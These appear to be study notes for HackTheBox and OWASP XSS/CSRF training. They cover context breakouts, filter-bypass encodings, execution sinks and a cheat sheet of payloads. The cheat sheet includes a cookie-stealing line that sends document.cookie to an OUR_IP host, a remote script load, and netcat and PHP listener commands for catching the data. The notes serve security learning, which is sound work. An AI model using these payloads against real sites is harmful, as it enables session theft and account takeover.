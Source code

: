 # XSS and CSRF
- [HTB Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/module/103/section/965)
- [HTB Advanced XSS and CSRF Exploitation Module](https://academy.hackthebox.com/module/235/section/2653)
- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)

# Notes
## Attacking and Exploiting Modern Web Applications (Kindle)
Determine where your input is getting printed in the HTTP response we receive back:
- Inside the head or body: Easy, just use your regular HTML tags like `<script>alert(1)</script>` or load an external script `<script src=https://onofri.org/security/xss.js></script>.`
- If you are inside a comment, you have to escape out of the comment: `--><script>alert(1)</script>`
- Same applies to `<textarea>` - we have to escape it first with `</textarea><script>alert(1)</script>`
- If we are inside a HTMl attribute we can try terminate it right before our payload (vector). An attribute can be delimited by single or double quotes or whitespace. Then we close the tag and place our payload e.g `'><script>alert(1)</script>` or `"><script>alert(1)</script>`
- If we can't escape out of an attribute we might be able to abuse it itself: e.g if we are in a `href` or `src` attribute we can use it directly with: `javascript:alert(1)` but each attribute/element might behave a little differently. And `"onmouseover="alert(1)` or  `'onmouseover='alert(1)` are valid for most.
- If we're in JS code it depends where we are in the code, JS comments are `//`, it's line terminator is `;` and of course `'` + `"`



## XSS Filter Bypasses
### Weak Blacklists
- Casing: `<ScRiPt>alert(1);</ScRiPt>`
- Casing: `<object data="JaVaScRiPt:alert(1)">`
- Casing: `<img src=x OnErRoR=alert(1)>`
- No Space: `<svg/onload=alert(1)>`

### JavaScript Encodings
- Unicode: `"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"`
- Octal: `"\141\154\145\162\164\50\61\51"`
- Hex: `"\x61\x6c\x65\x72\x74\x28\x31\x29"`
- Base64: `atob("YWxlcnQoMSk=")`

### String Creation
- fromCharCode: `String.fromCharCode(97,108,101,114,116,40,49,41)`
- source: `/alert(1)/.source`
- URL Encoding: `decodeURI(/alert(%22xss%22)/.source)`

### Execution Sinks:
- eval: `eval("alert(1)")`
- setTimeout: `setTimeout("alert(1)")`
- setInterval: `setInterval("alert(1)")`
- Function: `Function("alert(1)")()`
- constructor: `[].constructor.constructor(alert(1))()`

---



---

# HTB Cheat Sheet
## XSS Payloads
| Code | Description |
|------|-------------|
| `<marquee>` | Basic XSS Payload |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Code | Description |
|------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80` | Start `PHP` server |
